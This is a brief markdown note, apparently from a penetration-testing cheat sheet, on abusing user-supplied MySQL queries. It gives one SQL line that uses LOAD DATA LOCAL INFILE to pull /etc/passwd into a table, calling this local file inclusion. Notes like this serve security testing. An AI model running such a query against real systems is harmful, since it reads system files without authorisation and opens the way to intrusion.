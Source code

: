 # MySQL input

Sometimes applications with 'platform' identities allow you to input sophisticated queries. Sometimes these queries have access to things they should not have access to.



For MySQL you can try local file inclusion:

```sql
LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE dadadb.dadatable FIELDS TERMINATED BY "\n"
```


